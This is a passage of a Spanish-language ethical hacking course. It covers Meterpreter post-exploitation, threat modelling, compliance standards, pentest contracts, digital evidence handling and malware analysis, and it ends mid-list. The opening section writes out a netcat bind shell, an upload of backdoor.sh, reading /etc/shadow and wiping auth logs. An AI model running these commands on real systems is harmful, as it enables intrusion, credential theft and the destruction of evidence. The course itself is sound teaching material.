### 🧪 EJEMPLO COMPLETO: POST-EXPLOITACIÓN CON METERPRETER

#### 📍 Escenario:

Ya explotaste un servicio y tienes una sesión de Meterpreter abierta.

---

#### ✅ 1. Enumerar información del sistema

```bash
sysinfo
```

Salida:

```
Computer: metasploitable
OS: Linux 2.6.24
Arch: x86
```

---

#### ✅ 2. Obtener usuarios conectados

```bash
getuid
```

```bash
id
```

---

#### ✅ 3. Buscar archivos interesantes

```bash
search -f *.conf
```

O buscar contraseñas directamente:

```bash
cat /etc/passwd
cat /etc/shadow
```

---

#### ✅ 4. Subir o descargar archivos

```bash
upload backdoor.sh /tmp
download /etc/passwd
```

---

#### ✅ 5. Mantener acceso: backdoor (Netcat)

En la víctima:

```bash
nc -lvp 4444 -e /bin/bash
```

En Kali:

```bash
nc 192.168.56.102 4444
```

Esto crea una **shell inversa** manual.

---

#### ✅ 6. Escalar privilegios

Usa el módulo de `local_exploit_suggester` de Metasploit:

```bash
run post/multi/recon/local_exploit_suggester
```

Te recomendará exploits para elevar de usuario normal a root.

---

### 📘 METODOLOGÍAS EN POST-EXPLOITACIÓN

Las siguientes metodologías guían el trabajo profesional del pentester tras el acceso:

| Metodología             | Objetivo principal                                                    |
| ----------------------- | --------------------------------------------------------------------- |
| **PTES**                | Estandarizar post-exploit en pentesting                               |
| **MITRE ATT\&CK**       | Tácticas y técnicas reales de APTs (persistencia, exfiltración, etc.) |
| **OWASP Testing Guide** | Enfocado en aplicaciones web, incluye acciones post                   |

#### Ejemplo con MITRE ATT\&CK:

- **TA0003 – Persistencia:** Añadir un servicio al inicio en Linux.
- **TA0005 – Defensa evasiva:** Borrar logs (`rm -f /var/log/auth.log`)
- **TA0006 – Credenciales:** Dump de `/etc/shadow` o `mimikatz` en Windows.
- **TA0007 – Descubrimiento:** Enumerar interfaces, usuarios, etc.
- **TA0008 – Movimiento lateral:** Con SSH, RDP, etc.

---

#### 🧼 7. Cubrir huellas (¡sólo en laboratorio!)

```bash
rm -f /var/log/auth.log
history -c
```

> ⚠️ ¡Nunca lo hagas fuera de un entorno controlado o sin permiso legal!

---

### ✅ RESUMEN DE PASOS (checklist)

✅ Acceso inicial a la máquina

✅ Enumeración de usuarios, sistema y redes

✅ Extracción de credenciales o archivos sensibles

✅ Escalado de privilegios

✅ Persistencia (backdoor o cronjob)

✅ Movimiento lateral (si hay más máquinas)

✅ Documentar todo para el informe final

---

### 🔐 ¿Cómo prevenir la post-explotación?

- Uso de firewalls y antivirus
- No usar contraseñas por defecto
- Monitorear actividad de red y sistema
- Actualizar software
- Detección de anomalías (SIEM)

---

### 📌 CONCLUSIÓN

🔹 Esta fase es donde el **hacking ético se vuelve más estratégico**
🔹 El pentester ya no solo ataca, ahora **analiza, permanece y se mueve**
🔹 Las herramientas como `Meterpreter`, `Mimikatz` y `Empire` son clave
🔹 Se usan marcos profesionales como **MITRE ATT\&CK** y **PTES**

---

[🔼](#índice)

---

## **879. Gestión de riesgos y modelado de amenazas**

### 🧠 ¿Qué es la Gestión de Riesgos?

Es el proceso de identificar, analizar y **mitigar los riesgos** que amenazan la seguridad de los activos (datos, redes, software, etc.) de una organización.

#### 🧩 ¿Qué es un Riesgo?

Un riesgo en ciberseguridad es la **combinación de una vulnerabilidad explotable y una amenaza real** que puede causar daño.

> 🔒 **Riesgo = Vulnerabilidad + Amenaza + Impacto**

---

### 🔍 ¿Qué es el Modelado de Amenazas?

Es una **técnica de análisis proactivo** para encontrar posibles amenazas **antes de que un atacante lo haga**. Sirve para responder preguntas como:

- ¿Qué podría salir mal?
- ¿Qué atacantes pueden estar interesados?
- ¿Qué controles debo aplicar?

---

### 📋 Etapas de la Gestión de Riesgos

| Etapa                 | Descripción                                      |
| --------------------- | ------------------------------------------------ |
| **1. Identificación** | Identificar activos, amenazas y vulnerabilidades |
| **2. Evaluación**     | Evaluar impacto y probabilidad                   |
| **3. Tratamiento**    | Decidir: Mitigar, Transferir, Aceptar o Evitar   |
| **4. Monitoreo**      | Revisión y mejora continua                       |

---

### ⚠️ Ejemplo Simple de Riesgo

| Elemento       | Valor                                   |
| -------------- | --------------------------------------- |
| Activo         | Base de datos de clientes               |
| Vulnerabilidad | Contraseña débil en MySQL               |
| Amenaza        | Ataque de fuerza bruta                  |
| Impacto        | Pérdida de datos + multa por privacidad |
| Riesgo         | Alto                                    |

---

### 🧠 Métodos para el Modelado de Amenazas

#### 1. **STRIDE** (modelo de Microsoft)

| Letra | Amenaza                    | Ejemplo                              |
| ----- | -------------------------- | ------------------------------------ |
| S     | **Spoofing**               | Suplantación de identidad            |
| T     | **Tampering**              | Modificación de datos                |
| R     | **Repudiation**            | Negación de acciones                 |
| I     | **Information Disclosure** | Fuga de datos sensibles              |
| D     | **Denial of Service**      | Caída del sistema                    |
| E     | **Elevation of Privilege** | Subir de usuario normal a root/admin |

---

#### 2. **DREAD** (método para priorizar riesgos)

| Factor          | Descripción                                    |
| --------------- | ---------------------------------------------- |
| Damage          | ¿Qué tanto daño puede causar?                  |
| Reproducibility | ¿Qué tan fácil es repetir el ataque?           |
| Exploitability  | ¿Qué tan fácil es explotar la amenaza?         |
| Affected Users  | ¿A cuántos usuarios afecta?                    |
| Discoverability | ¿Qué tan fácil es encontrar la vulnerabilidad? |

Cada factor se puntúa de 1 a 10, se suman y se prioriza el riesgo.

---

### 🧰 Herramientas de Modelado de Amenazas

#### ✅ 1. **Microsoft Threat Modeling Tool** (Gratis)

- Aplicación para modelar amenazas usando STRIDE
- Genera automáticamente amenazas según tu arquitectura

🔗 [Descarga](https://www.microsoft.com/en-us/securityengineering/sdl/threatmodeling)

---

#### ✅ 2. **OWASP Threat Dragon**

- Herramienta open source multiplataforma
- Puedes usarla online o instalarla

🔗 [Sitio oficial](https://owasp.org/www-project-threat-dragon/)

---

### 🖥️ Instalación rápida de OWASP Threat Dragon (modo local)

#### Requisitos:

- Node.js instalado

```bash
npm install -g @owasp/threat-dragon
threatdragon
```

Abre en tu navegador:
👉 `http://localhost:8080`

---

### ✅ EJEMPLO COMPLETO

#### 🧪 Escenario: Aplicación web de e-commerce

Tu aplicación tiene:

- Inicio de sesión
- Página de productos
- Carrito de compras
- Pago con tarjeta

#### ⚙️ Paso 1: Crear modelo en Threat Dragon o papel

Dibuja los siguientes elementos:

- Usuario
- Navegador
- Servidor Web
- Base de datos
- Servicio de pagos externo

#### ⚠️ Paso 2: Identificar amenazas con STRIDE

| Componente       | Amenaza                    | Tipo (STRIDE)          |
| ---------------- | -------------------------- | ---------------------- |
| Inicio de sesión | Suplantación (login falso) | Spoofing               |
| Carrito          | Modificación de precios    | Tampering              |
| Transacción      | Fuga de tarjeta            | Information Disclosure |
| Web App          | DDoS                       | Denial of Service      |
| DB               | Inyección SQL              | Elevation of Privilege |

---

#### 📊 Paso 3: Calificar con DREAD

| Amenaza                 | DREAD Score                 |
| ----------------------- | --------------------------- |
| Inyección SQL           | 9 + 9 + 10 + 9 + 8 = **45** |
| Modificación de precios | 6 + 7 + 8 + 6 + 5 = **32**  |
| Suplantación de login   | 5 + 6 + 5 + 6 + 4 = **26**  |

🔴 **Prioridad alta:** Inyección SQL

🟡 **Prioridad media:** Manipulación de precios

🟢 **Prioridad baja:** Spoofing de login

---

#### 🛡️ Paso 4: Tomar decisiones

- Aplicar **validación de entradas** para evitar SQLi
- Usar HTTPS en toda la app
- Limitar intentos de login
- Activar monitoreo con SIEM o alertas

---

### 🧾 CONCLUSIÓN

- **La gestión de riesgos** ayuda a entender qué proteger y cómo.
- **El modelado de amenazas** es una técnica para identificar problemas antes de que ocurra un ataque.
- STRIDE y DREAD son métodos simples pero poderosos.
- Herramientas como **Threat Modeling Tool** o **Threat Dragon** facilitan mucho el trabajo.
- La gestión y modelado **no es solo para expertos**, sino para **todo desarrollador o pentester profesional**.

---

[🔼](#índice)

---

## **880. PCI DSS. HIPAA. DMCA.ISO/IEC 27001**

### 📦 1. ¿Qué es PCI DSS?

#### 🔐 Significa: _Payment Card Industry Data Security Standard_

Es un **estándar de seguridad obligatorio** para toda empresa que **almacene, procese o transmita datos de tarjetas de crédito**.

#### ✅ Objetivo:

Proteger los datos de tarjetas de débito/crédito y evitar fraudes.

#### 📋 Requisitos clave (ejemplos):

| Requisito                    | Ejemplo Práctico                            |
| ---------------------------- | ------------------------------------------- |
| Usar firewall                | Instalar `iptables` o `ufw`                 |
| Cifrar transmisión de datos  | Forzar HTTPS                                |
| Usar contraseñas seguras     | Bloquear accesos con autenticación fuerte   |
| Monitorear accesos y alertas | Usar herramientas como **Snort** o **SIEM** |

---

### 🧬 2. ¿Qué es HIPAA?

#### 👩‍⚕️ Significa: _Health Insurance Portability and Accountability Act_ (EE.UU.)

Es una ley que protege la **información médica personal (PHI)**.

#### ✅ Objetivo:

Evitar que información médica (exámenes, diagnósticos, tratamientos) se exponga o se use indebidamente.

#### 📋 Ejemplos:

| Acción Permitida por HIPAA            | Acción Prohibida                            |
| ------------------------------------- | ------------------------------------------- |
| Acceder al historial con autorización | Compartir historial sin permiso             |
| Usar cifrado para enviar exámenes     | Enviar resultados médicos por correo simple |

#### 🛠 Herramientas útiles:

- Cifrado de discos (como **VeraCrypt**)
- VPN y túneles seguros
- Control de acceso con **LDAP** o **Active Directory**

---

### 📄 3. ¿Qué es DMCA?

#### 📚 Significa: _Digital Millennium Copyright Act_

Es una ley de derechos de autor de EE.UU. aplicada en entornos digitales.

#### ✅ Objetivo:

Proteger **contenidos digitales con derechos de autor**, incluyendo software, libros, música, imágenes.

#### 📋 Ejemplos comunes:

| Permitido (Fair Use)                        | Prohibido (Violación de DMCA)     |
| ------------------------------------------- | --------------------------------- |
| Usar fragmentos breves con fines educativos | Subir software crackeado a GitHub |
| Parodiar un video con derechos              | Descargar música sin licencia     |

> 💡 GitHub, YouTube y Google **bloquean contenido** por infracción DMCA.

---

### 🌐 4. ¿Qué es ISO/IEC 27001?

#### 🛡️ Es un estándar internacional de **gestión de seguridad de la información** (ISMS).

#### ✅ Objetivo:

Establecer procesos, controles y auditorías para proteger la **confidencialidad, integridad y disponibilidad** de la información.

#### 🧩 Clave del estándar:

No solo es técnico, también es organizacional.

#### 📋 Ejemplos:

| Requisito de ISO 27001              | Ejemplo                                    |
| ----------------------------------- | ------------------------------------------ |
| Control de acceso                   | Cada empleado tiene usuario y clave únicos |
| Respaldo de información             | Backups diarios automáticos                |
| Políticas de seguridad documentadas | Manual de políticas de seguridad digital   |

---

### 🖥️ ¿Cómo se “instala” o aplica cada uno?

Estas normas **no se instalan como software**, pero se pueden implementar usando herramientas y prácticas específicas. Aquí te doy una idea para cada una:

#### 🔧 PCI DSS

- Instala un firewall (`ufw` en Linux):

```bash
sudo apt install ufw
sudo ufw enable
sudo ufw allow 443/tcp
```

- Fuerza HTTPS con **Let's Encrypt** y Nginx

#### 🔧 HIPAA

- Usa cifrado de disco con **VeraCrypt** o **BitLocker**
- Usa autenticación con doble factor

#### 🔧 ISO/IEC 27001

- Crea una **política de seguridad**
- Usa **Open-AudIT** o **GLPI** para inventario de activos
- Herramientas SIEM como Wazuh, Splunk o ELK para monitoreo

#### 🔧 DMCA

- Verifica código o contenido antes de publicarlo
- Si usas contenido de terceros, ten **licencias** o usa contenido libre como en [creativecommons.org](https://creativecommons.org)

---

### ✅ EJEMPLO COMPLETO: Aplicación web que cumple PCI DSS e ISO/IEC 27001

#### Escenario:

Estás desarrollando una tienda online que acepta pagos con tarjeta.

#### Paso 1: Cumplimiento de PCI DSS

| Acción                     | Ejecución práctica                         |
| -------------------------- | ------------------------------------------ |
| Usar HTTPS                 | Certificado con Let’s Encrypt y Nginx      |
| No guardar tarjetas        | Usar Stripe o PayPal como pasarela externa |
| Cifrado de datos sensibles | Usar `bcrypt` para contraseñas             |
| Monitorear tráfico         | Instalar **Snort** para IDS                |

#### Paso 2: Cumplimiento ISO/IEC 27001

| Acción                | Ejecución práctica                         |
| --------------------- | ------------------------------------------ |
| Control de acceso     | Roles definidos: admin, usuario, visitante |
| Gestión de incidentes | Logs centralizados con Wazuh o SIEM        |
| Respaldos             | Automatizados con cron y `rsync`           |
| Documentación         | Manual de políticas (PDF, wiki, etc.)      |

---

### 🧠 CONCLUSIÓN

| Norma         | Enfocada en...                        | Principal uso                        |
| ------------- | ------------------------------------- | ------------------------------------ |
| **PCI DSS**   | Tarjetas de crédito                   | E-commerce, bancos, sistemas de pago |
| **HIPAA**     | Información médica                    | Clínicas, hospitales, apps médicas   |
| **DMCA**      | Derechos de autor en medios digitales | Plataformas online, GitHub, YouTube  |
| **ISO 27001** | Seguridad general de la información   | Empresas que manejan datos sensibles |

---

[🔼](#índice)

---

## **881. Contratos, Reglas de compromisos, Cláusula de no competencia y Acuerdo de confidencialidad**

### 🧾 1. CONTRATOS EN HACKING ÉTICO

#### 🔍 ¿Qué es?

Un **contrato** es un documento legal firmado entre el **hacker ético (pentester)** y la **empresa o cliente** que solicita el servicio. Establece claramente **lo que se va a hacer**, **cuándo**, **cómo**, y **con qué limitaciones**.

#### 🧠 ¿Por qué es importante?

Sin un contrato, realizar un test de penetración (pentest) puede considerarse **ilegal**. El contrato **protege legalmente** a ambas partes.

#### 📋 Qué debe incluir:

- Identificación de las partes
- Tipo de pruebas autorizadas (red, web, Wi-Fi, etc.)
- Duración del trabajo
- Honorarios
- Responsabilidades
- Cláusulas legales (confidencialidad, competencia, etc.)

#### 🧠 Ejemplo sencillo:

> “El pentester podrá ejecutar pruebas de intrusión en la web `tiendaonline.com` entre el 1 y el 5 de agosto, sin afectar a clientes reales, y usando herramientas aprobadas como Nmap y Burp Suite.”

---

### ⚔️ 2. REGLAS DE COMPROMISO (ROE – Rules of Engagement)

#### 🔍 ¿Qué es?

Es un **anexo técnico al contrato**. Define los **límites, alcance y métodos** que el hacker ético puede usar durante el pentest.

#### 📋 Contiene:

- ¿Qué sistemas se pueden atacar?
- ¿Cuándo se pueden hacer las pruebas?
- ¿Qué técnicas están permitidas?
- ¿Qué hacer si se encuentra información sensible?
- ¿Qué hacer en caso de caída del sistema?

#### 🧠 Ejemplo:

> “El pentester no podrá realizar ataques de denegación de servicio (DoS). El escaneo se hará solo entre las 2:00 am y las 4:00 am. Si encuentra credenciales de usuarios reales, deberá reportarlas inmediatamente y no usarlas.”

---

### 🚫 3. CLÁUSULA DE NO COMPETENCIA

#### 🔍 ¿Qué es?

Es una cláusula que prohíbe al hacker ético **trabajar con empresas rivales del cliente** durante o después del contrato, por un tiempo limitado.

#### 📋 ¿Por qué se usa?

Para evitar que un hacker ético use conocimientos adquiridos con un cliente para beneficiar a su competencia.

#### 🧠 Ejemplo simple:

> “El consultor no podrá prestar servicios de seguridad a empresas competidoras de ClienteX durante un período de 12 meses después de finalizado el contrato.”

---

### 🤐 4. ACUERDO DE CONFIDENCIALIDAD (NDA – Non-Disclosure Agreement)

#### 🔍 ¿Qué es?

Es un documento que impide al hacker ético revelar información confidencial del cliente, como:

- Sistemas internos
- Vulnerabilidades encontradas
- Datos de clientes o empleados
- Planes o estrategias de seguridad

### 🧠 Ejemplo:

> “El firmante se compromete a no divulgar, publicar ni utilizar para fines personales ninguna información técnica, estratégica ni comercial obtenida durante el contrato.”

> 🔐 ¡Un NDA protege legalmente la **privacidad de la empresa** y la **integridad del pentester**!

---

### 📥 ¿CÓMO SE "INSTALA" ESTO?

No se “instala” como software, pero sí se **implementa como parte del proceso profesional**:

#### Paso a paso para implementar correctamente:

1. **Plantillas**: Crea o descarga plantillas de contrato, NDA y cláusulas.
2. **Adaptación**: Personalízalas para cada cliente (nombre, fechas, alcance).
3. **Firma**: Usa firma digital con herramientas como:

   - [DocuSign](https://www.docusign.com/)
   - [Adobe Sign](https://acrobat.adobe.com/us/en/sign.html)
   - PDF con firma manuscrita escaneada

4. **Archivo seguro**: Guarda los documentos en sistemas cifrados o controlados.

---

### ✅ EJEMPLO COMPLETO

Supón que **Gustavo** es un pentester freelance. Lo contrata la empresa **CyberMarket S.A.C.**, para hacer una evaluación de seguridad en su plataforma e-commerce.

#### 🔐 Documentos firmados:

##### 1. Contrato:

- Pruebas autorizadas en `https://www.cybermarket.com`
- Duración: del 1 al 7 de agosto
- Herramientas: Burp Suite, Nmap, Nikto
- Precio: S/. 1500 por el servicio
- Entrega de reporte técnico y ejecutivo

##### 2. Reglas de compromiso (ROE):

- No se permiten ataques DoS o DDoS
- Escaneo solo entre 12:00 a.m. y 4:00 a.m.
- Se debe avisar si se encuentran datos sensibles

##### 3. Cláusula de no competencia:

- Gustavo no puede trabajar con **TiendaZ**, competencia directa, por 1 año

##### 4. NDA:

- Gustavo no podrá divulgar ninguna información técnica ni comercial encontrada, ni en redes ni en su portafolio

---

### 🎯 CONCLUSIÓN RÁPIDA

| Elemento                | ¿Para qué sirve?               | ¿Cómo lo implemento?                         |
| ----------------------- | ------------------------------ | -------------------------------------------- |
| **Contrato**            | Legalizar el trabajo           | Firma física o digital                       |
| **Rules of Engagement** | Limitar el alcance del pentest | Documento técnico anexo al contrato          |
| **No competencia**      | Evitar conflicto de intereses  | Cláusula en el contrato                      |
| **NDA**                 | Mantener la confidencialidad   | Documento por separado o dentro del contrato |

---

[🔼](#índice)

---

## **882. Convenio de Budapest. ¿Cómo vamos en América latina? Salvaguarda de evidencias digitales**

### 🏛️ 1. ¿Qué es el CONVENIO DE BUDAPEST?

#### 🔍 Definición:

El **Convenio de Budapest**, también conocido como el **Convenio sobre la Ciberdelincuencia**, es el **primer tratado internacional** que busca hacer frente a los **delitos informáticos** mediante:

- Una legislación penal común entre países
- Procedimientos de investigación compatibles
- Cooperación internacional rápida y efectiva

📅 Fue adoptado el **23 de noviembre de 2001** en Budapest, Hungría, y entró en vigor en 2004.

🔒 **Organizado por**: el Consejo de Europa (pero abierto a todos los países, incluso no europeos).

---

#### 🧠 ¿Qué delitos aborda?

Incluye **delitos como**:

| Tipo de delito                     | Ejemplo                                            |
| ---------------------------------- | -------------------------------------------------- |
| Acceso ilegal                      | Hackear una cuenta o sistema sin permiso           |
| Interceptación ilegal              | Escuchar comunicaciones sin autorización           |
| Daños a sistemas o datos           | Borrar bases de datos o lanzar un ransomware       |
| Fraude informático                 | Suplantación de identidad o phishing bancario      |
| Distribución de malware            | Crear o vender virus o troyanos                    |
| Delitos relacionados con contenido | Distribuir pornografía infantil o contenido ilegal |
| Infracciones de derechos de autor  | Piratería digital                                  |

---

### 🌎 2. ¿Cómo vamos en América Latina?

#### 🇪🇺 ¿Es obligatorio firmarlo?

No. Cada país **decide si lo firma y lo ratifica**. Solo entonces se compromete legalmente a cumplirlo.

#### 📊 Situación actual (América Latina):

| País                       | Estado actual respecto al Convenio de Budapest                    |
| -------------------------- | ----------------------------------------------------------------- |
| **Chile**                  | ✅ Miembro pleno (ratificado en 2017)                             |
| **Colombia**               | ✅ Miembro pleno (ratificado en 2021)                             |
| **Costa Rica**             | ✅ Miembro pleno (ratificado en 2017)                             |
| **Rep. Dominicana**        | ✅ Miembro pleno (ratificado en 2013)                             |
| **Argentina**              | 🕒 Invitado a firmar, pero aún sin ratificar                      |
| **Perú**                   | ❌ No ha firmado ni ratificado                                    |
| **México**                 | 🕒 Invitado a firmar, pero sin ratificación                       |
| **Brasil**                 | ❌ No es parte, pero tiene leyes propias contra delitos digitales |
| **Ecuador, Bolivia, etc.** | ❌ No miembros aún                                                |

🔎 **Conclusión**: En América Latina, **solo unos pocos países lo han ratificado**. Otros están en proceso o aún no han mostrado avances significativos.

---

### 🧾 3. ¿Qué es la SALVAGUARDA DE EVIDENCIAS DIGITALES?

#### 🔐 Definición:

La **salvaguarda de evidencias digitales** es el proceso de **identificar, preservar, recopilar y analizar** datos electrónicos **sin alterarlos**, para que puedan usarse como prueba **en una investigación o juicio**.

---

#### 🧰 ¿Cómo se hace?

| Etapa                 | Descripción                                                                   |
| --------------------- | ----------------------------------------------------------------------------- |
| **1. Identificación** | Encontrar el dispositivo o sistema relevante (servidor, disco, celular...)    |
| **2. Preservación**   | Protegerlo de modificaciones (desconectar de red, hacer imagen forense)       |
| **3. Adquisición**    | Clonar los datos (ej. con herramientas como `dd`, FTK Imager, Autopsy)        |
| **4. Análisis**       | Buscar evidencia relevante (IP, logs, mensajes, archivos eliminados)          |
| **5. Documentación**  | Registrar **paso a paso todo lo hecho**, para asegurar **cadena de custodia** |

🛡️ **Cadena de custodia**: documento donde se registra **quién tuvo acceso a la evidencia, cuándo y para qué**, para garantizar que no fue manipulada.

---

### 🧠 Ejemplo práctico sencillo

#### Escenario:

La empresa **“RedSegura S.A.C.”** sufrió una intrusión. El hacker robó información del servidor web.

El equipo de respuesta quiere conservar evidencia para denunciar y posiblemente usarla en juicio.

#### 🔍 Paso a paso:

1. **Identificación**:
   Se detecta que el servidor `192.168.1.15` fue comprometido.

2. **Preservación**:
   Se desconecta el servidor de internet. Se hace una imagen forense del disco con el comando:

   ```bash
   dd if=/dev/sda of=/mnt/disco_evidencia/redsegura_sda.img bs=4M
   ```

3. **Adquisición y análisis**:
   Se analiza la imagen con **Autopsy** y se detecta:

   - Archivos maliciosos con shells
   - Logs con IPs de conexión sospechosas
   - Cuentas de usuario creadas sin permiso

4. **Documentación**:
   Todo queda registrado:

   - Herramientas usadas
   - Fechas y horarios
   - Acciones realizadas
   - Firma del analista

5. **Entrega a autoridades**:
   Se firma un **acta de cadena de custodia** y se entrega la evidencia al fiscal de delitos informáticos.

---

### 📌 Conclusión clave

| Concepto                     | Clave para entender                                                         |
| ---------------------------- | --------------------------------------------------------------------------- |
| **Convenio de Budapest**     | Marco legal internacional contra ciberdelitos. América Latina avanza lento. |
| **Salvaguarda de evidencia** | Proteger pruebas digitales sin alterar su integridad.                       |
| **Importancia**              | Sin buenas prácticas, no se puede castigar legalmente al atacante           |

---

[🔼](#índice)

---

## **883. Malware y Análisis estático de malware**

### 🦠 ¿Qué es el MALWARE?

**Malware** es una palabra compuesta de “malicious software” (software malicioso). Son **programas diseñados para dañar, infiltrarse o robar información** sin el consentimiento del usuario.

---

#### 🧬 Tipos comunes de malware:

| Tipo           | Qué hace                                                        | Ejemplo fácil                               |
| -------------- | --------------------------------------------------------------- | ------------------------------------------- |
| **Virus**      | Infecta otros archivos ejecutables                              | Se copia a Word.exe                         |
| **Gusano**     | Se propaga por la red sin ayuda de un archivo anfitrión         | Se envía por correo automáticamente         |
| **Troyano**    | Se disfraza de programa útil pero tiene código malicioso oculto | Supuesto instalador de juegos, pero roba    |
| **Ransomware** | Cifra archivos y exige dinero para recuperarlos                 | Cifra tus documentos y pide pago en Bitcoin |
| **Spyware**    | Espía al usuario sin que lo sepa                                | Registra tus teclas (keylogger)             |
| **Adware**     | Muestra anuncios no deseados                                    | Abre ventanas emergentes sin parar          |
| **Rootkits**   | Ocultan su presencia para evitar ser detectados por antivirus   | Se instalan en el sistema operativo         |

---

### 🧪 ¿Qué es el ANÁLISIS ESTÁTICO DE MALWARE?

Es una técnica para analizar un archivo malicioso **sin ejecutarlo**, examinando su estructura, código y comportamiento **de forma segura**.

---

#### 🎯 ¿Para qué sirve?

- Entender qué hace el malware
- Saber si es peligroso
- Ver si roba información, se propaga, o encripta archivos
- Identificar indicadores de compromiso (IoCs)

---

### 🔍 Herramientas para análisis estático

Aquí algunas herramientas muy útiles:

| Herramienta              | Función principal                               |
| ------------------------ | ----------------------------------------------- |
| **VirusTotal**           | Subir archivo y ver qué antivirus lo detectan   |
| **Strings**              | Extraer texto del archivo                       |
| **PEStudio**             | Analizar archivos ejecutables (.exe) en Windows |
| **BinText**              | Ver texto legible dentro del ejecutable         |
| **Detect It Easy (DIE)** | Identifica si está ofuscado o empaquetado       |
| **Ghidra**               | Ingeniería inversa (decompilador)               |

---

### 🛠️ ¿Cómo instalar un entorno seguro para analizar malware?

Lo mejor es hacerlo **en una máquina virtual aislada** (sandbox). Aquí van los pasos:

---

#### 🧱 PASO 1: Crear una máquina virtual segura

Puedes usar **VirtualBox** o **VMware**:

- Instala **VirtualBox** en tu PC
- Descarga una **ISO de Windows 10** desde Microsoft (modo evaluación)
- Crea una máquina virtual de **Windows 10 sin conexión a internet**

💡 _Opcional: Puedes usar Kali Linux si prefieres herramientas en Linux, pero la mayoría de malware apunta a Windows._

---

#### 🔐 PASO 2: Desactiva internet en la VM

Para evitar propagación o filtración, **nunca tengas la VM con malware conectada a Internet.**

En VirtualBox:

1. Ve a **Configuración > Red**
2. Selecciona **"No conectado"**

---

#### 🧰 PASO 3: Instala herramientas dentro de la VM

Instala estas herramientas de análisis (descárgalas primero desde tu PC anfitrión y transfiérelas por carpeta compartida):

- [DIE (Detect It Easy)](https://ntinfo.biz/)
- [Strings (Sysinternals)](https://learn.microsoft.com/en-us/sysinternals/downloads/strings)
- [BinText](https://www.mcafee.com/enterprise/en-us/downloads/free-tools/bintext.html)
- [PEStudio](https://www.winitor.com/)
- [Ghidra (opcional)](https://ghidra-sre.org/)

---

### ✅ EJEMPLO COMPLETO: Análisis estático paso a paso

Supón que tienes un archivo llamado `sospechoso.exe`. Vamos a hacer un análisis estático **sin ejecutarlo**.

---

#### 🔎 PASO 1: Examinar con Strings

Usamos Strings para ver si hay textos legibles:

```bash
strings sospechoso.exe > salida.txt
```

📌 Resultado: encuentras cosas como:

```
http://malicioso.com/puerta
C:\Users\Admin\secreto.txt
cmd.exe /c del archivo
```

🧠 **Interpretación**: El archivo hace llamadas a Internet y ejecuta comandos.

---

#### 🧪 PASO 2: Usar PEStudio

Abre `sospechoso.exe` con PEStudio:

- PEStudio te muestra:

  - Permisos solicitados
  - Importaciones de funciones como `CreateRemoteThread`, `LoadLibrary`, etc.
  - Si está empaquetado con UPX u otros métodos

---

#### 🔐 PASO 3: Comprobar en VirusTotal (solo si es seguro)

Desde tu PC anfitrión (no la VM), sube el archivo a:

👉 [https://virustotal.com](https://virustotal.com)

📌 Resultado:

- 43 de 70 antivirus lo detectan como "Trojan.Generic" o similar

---

#### 🔩 PASO 4: Ver si está ofuscado (DIE)

Abres `sospechoso.exe` en DIE.

Resultado:

- Detecta que está comprimido con UPX.

✅ Esto indica que el archivo está empaquetado para ocultar su verdadero código.

---

### 🛡️ RECOMENDACIONES DE SEGURIDAD

- Siempre analiza dentro de una **máquina virtual aislada**
- No abras el malware en tu PC personal
- No lo conectes a internet
- Toma **snapshots** antes de empezar por si algo falla
- Desactiva antivirus de la VM (pueden borrar el malware sin que analices)

---

### 🧠 CONCLUSIÓN

| Concepto                  | Explicación fácil                                          |
| ------------------------- | ---------------------------------------------------------- |
| **Malware**               | Software malicioso que daña o roba información             |
| **Análisis estático**     | Examinar malware sin ejecutarlo                            |
| **Herramientas clave**    | Strings, PEStudio, DIE, VirusTotal, Ghidra                 |
| **Entorno seguro**        | Máquina virtual sin internet, con herramientas             |
| **Resultado del ejemplo** | Se detectó que `sospechoso.exe` era un troyano empaquetado |

---

[🔼](#índice)

---

## **884. Malware y Análisis dinámico de malware**

### 🦠 ¿Qué es el MALWARE?

**Malware** = “Malicious Software” (software malicioso). Es cualquier programa o código que tiene como intención **dañar, infectar, robar, espiar o interrumpir** el sistema de un usuario sin su consentimiento.

---

#### 🔥 Tipos comunes de malware (con ejemplos):

| Tipo       | ¿Qué hace?                                           | Ejemplo simple                        |
| ---------- | ---------------------------------------------------- | ------------------------------------- |
| Virus      | Infecta archivos para propagarse                     | Infecta Word.exe y se propaga         |
| Troyano    | Se oculta como algo útil pero tiene código malicioso | "Crack de juego" que roba contraseñas |
| Ransomware | Cifra archivos y pide dinero para recuperarlos       | Bloquea tus fotos y pide bitcoins     |
| Gusano     | Se propaga por red sin intervención humana           | Se copia por correo sin permiso       |
| Keylogger  | Graba lo que escribes (contraseñas, chats, etc.)     | Envia tus claves por correo           |

---

### 🧪 ¿Qué es el ANÁLISIS DINÁMICO de MALWARE?

Es una técnica que **ejecuta el malware en un entorno controlado** (sandbox o laboratorio virtual) para observar su **comportamiento en tiempo real**.

---

#### 🎯 ¿Para qué sirve?

- Ver qué archivos modifica o crea
- Qué procesos inicia
- A qué direcciones se conecta
- Qué claves del registro cambia
- Si crea persistencia en el sistema
- Qué se descarga o qué roba

---

### 🛠️ ¿Cómo se hace de forma segura?

#### ⚠️ Importante: **NUNCA** ejecutes malware en tu computadora normal. Siempre usa una **máquina virtual sin internet ni antivirus.**

---

### 🧰 Herramientas para análisis dinámico:

| Herramienta                | ¿Para qué sirve?                                |
| -------------------------- | ----------------------------------------------- |
| **Procmon** (Sysinternals) | Ver archivos, procesos y claves modificadas     |
| **Process Explorer**       | Ver procesos en ejecución                       |
| **Wireshark**              | Capturar tráfico de red                         |
| **Autoruns**               | Ver persistencia automática (inicio de Windows) |
| **Regshot**                | Comparar cambios en el registro                 |
| **FakeNet-NG**             | Simula servidores de red para ver tráfico       |
| **INetSim**                | Emula servicios de red (DNS, HTTP, FTP, etc.)   |
| **Any.Run / FLARE-VM**     | Entornos especializados (más avanzados)         |

---

### 🖥️ Cómo instalar un entorno de análisis dinámico (modo laboratorio seguro)

#### 🧱 Paso 1: Instalar una máquina virtual

Puedes usar:

- [VirtualBox (gratis)](https://www.virtualbox.org/)
- [VMware Workstation Player (gratis)](https://www.vmware.com/)

Usaremos una máquina virtual con **Windows 10** (ideal porque muchos malware están hechos para Windows).

💡 **Descarga oficial Windows ISO** (modo evaluación):

👉 [https://www.microsoft.com/en-us/software-download/windows10](https://www.microsoft.com/en-us/software-download/windows10)

---

#### 🛑 Paso 2: Aislar la máquina virtual

En VirtualBox:

- Configura **Red > No Conectado**
- Desactiva carpetas compartidas y portapapeles bidireccionales

---

#### 📦 Paso 3: Instala herramientas dentro de la VM

Desde tu PC real (anfitrión), descarga las herramientas y pásalas por una carpeta compartida (¡no conectes la VM a internet!).

##### Herramientas clave:

1. **Process Monitor (Procmon)** – ver actividad de disco y registro
